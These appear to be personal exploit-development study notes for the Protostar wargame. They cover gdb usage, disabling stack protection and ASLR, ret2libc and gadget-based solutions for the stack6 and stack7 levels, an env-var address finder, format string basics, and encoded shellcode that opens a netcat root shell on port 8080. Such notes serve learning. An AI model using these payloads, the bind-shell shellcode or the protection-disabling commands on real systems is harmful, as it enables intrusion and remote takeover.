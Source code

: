 #Compiling while avoiding gcc's protection mechanism (-fno-stack-protector)

	gcc -ggdb -mpreferred-stack-boundary=4 -fno-stack-protector -o helloBufferOverflow helloBufferOverflow.c

##gdb commands
#Loading the program in gdb

	gdb <executableProgramCode>

#Show the entire code loaded in gdb

	(gdb)list

#Placing breakpoints on the function can be done using line numbers obtained from the list command

	(gdb)break 7

	(gdb)break <line Number>

#disassemble the functions 

	(gdb)disas main

	disas <functionName>

#Start the program execution

	(gdb)run

#If a breakpoint is set and program gets paused at the breakpoint, for contiuning with the code, use 's'

	(gdb)s

#Disassmble the code at a given memory location

	(gdb)disas 0x0040059f

	disas <Memory Location>

#Checking the stack memory layout after the program has been loaded with breakpoints

	(gdb) x/8xw $rsp

#For the debugging to work properly, execute the below command

	(gdb) set debug-file-directory

#For checking the value of rip or eip

	(gdb) print /x $rip

#For locating system libc call

	(gdb) p system


## For compiling the c code with gcc, make use of the below parameters when Segmentation Fault error is given.

	The reason is that the shellcode may be in the non-executable memory.
	gcc -fno-stack-protector -z execstack -O OutputFileName yourShellCode.c

##For checking is ASLR(Address Space Layout Randominzation) is implemented and disabling it

	cat /proc/self/maps

	echo 0 > /proc/sys/kernel/randomize_va_space


# For checking the memory dump after program execution
		ulimit -c unlimited  ---> generates a core file

		 and then crash the program.

# For checking the exact memory location address 

	attach the process id to gdb
		1. ps -aux | grep "stack6"
		2. gdb -p <pid>

****Stack6 Protostar Soln1*****
	import struct
	padding = "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCC"

	#strings -a -t x /lib/libc-2.11.2.so | grep "/bin/sh" ---> Gives the offset 0x11f3bf
	#(gdb) info proc map  ---> For getting start memory address of /lib/libc-2.11.2.so call which is 0xb7e97000
	# break main; (gdb) print exit ---> finding the address of exit function in libc 
	system = struct.pack("I", 0xb7ecffb0)
	exit = struct.pack("I", 0xb7ec60c0)
	binsh = struct.pack("I", 0xb7e97000+0x11f3bf)

	print padding + system + exit + binsh

	(cat /tmp/test6;cat) | ./stack6
******Soln 2*******************
	(python -c 'print "/bin/sh" + "\x00" + "A"*68 + "BBBB" + "\xb0\xff\xec\xb7" + "\xc0\x60\xec\xb7" + "\xac\xf7\xff\xbf"';cat) | ./stack6

	\xac\xf7\xff\xbf ----> address of /bin/sh on the stack 
	Found by attaching gdb to the process id of the running stack6 program
	******************************

*****Stack7 Protostar Soln*******************
		> Soln1 :
			python -c 'print "A"*80 + "\x83\x83\x04\x08" + "\x7d\xf9\xff\xbf"' > /tmp/test
			
			1. Here we will redirect to a memory location which contains an instruction for ret. ret pops the 	address from the stack
			and loads it on the eip.
			2. \x83\x83\x04\x08 was found using user@protostar:/opt/protostar/bin$ objdump -d stack7 | less
			3. ret should pop the value on the top of the stack and put it in the eip register
			4. So next value should be an address to which we want to execute
			5. \x7d\xf9\xff\xbf is the address to a shell that we loaded in the environment variable using
				export deadShell=`blahblahblah`
			6. Locate the deadShell address using the below mentioned c code when a program(stack7 in our case) get loaded in the memory
				./find deadShell ./stack7     ; find is the name of the c executable

		> Soln2:
			python -c 'print "A"*80 + "\x92\x84\x04\x08" + "BBBBCCCC" + "\x7d\xf9\xff\xbf"' > /tmp/test

			1. Here we locate a memory location that contains pop, pop, ret sequence using objdump
				objdump -d stack7 | less
			2. Then place  \x92\x84\x04\x08 which is the location of the instruction start
			3. Because of the 2 consecutive pops, we add 8 bytes of random junk "BBBBCCCC"
			4. Finally path of the deadShell found using the c code.
			

#Simple Shellcode for opening a root shell access on port 8080 "https://www.exploit-db.com/exploits/14332/"

 	  export deadShell=`python -c 'print "\xeb\x2a\x5e\x31\xc0\x88\x46\x07\x88\x46\x0f\x88\x46\x19\x89\x76\x1a\x8d\x5e\x08\x89\x5e\x1e\x8d\x5e\x10\x89\x5e\x22\x89\x46\x26\xb0\x0b\x89\xf3\x8d\x4e\x1a\x8d\x56\x26\xcd\x80\xe8\xd1\xff\xff\xff\x2f\x62\x69\x6e\x2f\x6e\x63\x23\x2d\x6c\x70\x38\x30\x38\x30\x23\x2d\x65\x2f\x62\x69\x6e\x2f\x73\x68\x23"'`

# Code to find memory addresses of the environmental variables when called by a program.

	#include <stdio.h>
	#include <stdlib.h>
	#include <string.h>

	int main(int argc, char *argv[]) {
        char *ptr;
        if(argc < 3) {
                printf("Usage: %s <environment var> <target program name>\n", argv[0]);
                exit(0);
        }

        ptr = getenv(argv[1]); /* Get env var location. */
        ptr += (strlen(argv[0]) - strlen(argv[2]))*2; /* Adjust for program name. */
        printf("%s will be at %p\n", argv[1], ptr);
   }

## 
		char *i = argv[1];
		printf("My name is : %s", i);

			If printf finds the first argument as %s format string, it will switch to second argument which is i and dereference it
			and will print the value stored at argv[1]

# Format String Vulnerability basics

	> A format string is an ASCIIZ string used to specify and control the representation of different variables

		int a;
		printf("%d", a);
			
		%d ---> Format String 
		This tells the printf function to convert integer `a` into the format of a string

		printf is a format function 


	> Happens when user input is used as-is in the format string 

       >  There is the ‘%n’parameter, which writes the number of bytes already printed, into a variable of our choice. The address of the 			variable is given to the format function by placing an integer pointer as parameter onto the stack.

	>  ‘%s’ displays memory from an address that is supplied on the stack. 

## Resources
https://github.com/FabioBaroni/awesome-exploit-development/blob/master/README.md

https://crypto.stanford.edu/cs155/papers/formatstring-1.2.pdf
